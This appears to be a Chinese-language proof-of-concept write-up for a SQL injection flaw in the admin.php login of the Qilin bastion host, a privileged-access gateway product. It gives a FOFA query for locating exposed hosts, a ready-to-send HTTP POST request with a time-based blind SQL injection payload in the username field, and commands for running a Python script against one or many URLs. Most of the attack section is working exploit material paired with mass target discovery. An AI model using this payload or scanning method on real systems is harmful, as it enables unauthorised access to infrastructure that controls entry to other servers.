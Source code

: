 # 中远麒麟堡垒机存在SQL注入

### 1.漏洞描述

麒麟堡垒机用于运维管理的认证、授权、审计等监控管理，在该产品admin.php处存在SQL 注入漏洞

### 2.fofa语法

```
cert.subject="Baolei"
```

### 3.漏洞复现

```
POST /admin.php?controller=admin_commonuser HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Content-Length: 78
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

username=admin' AND (SELECT 12 FROM (SELECT(SLEEP(5)))ptGN) AND 'AAdm'='AAdm
```

![image.png](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719833303020-87fbfc46-b9fe-450d-beee-60f9c88947a2.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_937%2Climit_0)

### 4.py脚本使用

```
python3 360 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 360 脚本文件名 -f url.txt             # 测试多个url
```


